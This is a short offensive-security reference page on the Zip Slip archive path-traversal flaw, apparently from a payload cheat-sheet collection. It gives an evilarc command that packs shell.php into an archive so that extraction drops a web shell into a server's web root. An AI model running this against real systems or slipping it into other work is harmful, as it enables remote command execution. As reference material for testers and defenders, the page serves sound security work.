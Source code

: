 # Zip Slip

> The vulnerability is exploited using a specially crafted archive that holds directory traversal filenames (e.g. ../../shell.php). The Zip Slip vulnerability can affect numerous archive formats, including tar, jar, war, cpio, apk, rar and 7z. The attacker can then overwrite executable files and either invoke them remotely or wait for the system or user to call them, thus achieving remote command execution on the victim’s machine.

## Summary

- [Detection](#detection)
- [Tools](#tools)

* [Exploits](#exploits)
  * [Basic Exploit](#basic-exploit)

- [Additional Notes](#additional-notes)

## Detection

- Any zip upload page on the application

## Tools

- evilarc [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc)

## Exploits

### Basic Exploit

```python
python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15
```

### Additional Notes

- For affected libraries and projects, visit <https://github.com/snyk/zip-slip-vulnerability>

## References

- [Zip Slip Vulnerability - Snyk Ltd, 2019](https://snyk.io/research/zip-slip-vulnerability)
- [Zip Slip - snyk, 2019](https://github.com/snyk/zip-slip-vulnerability)
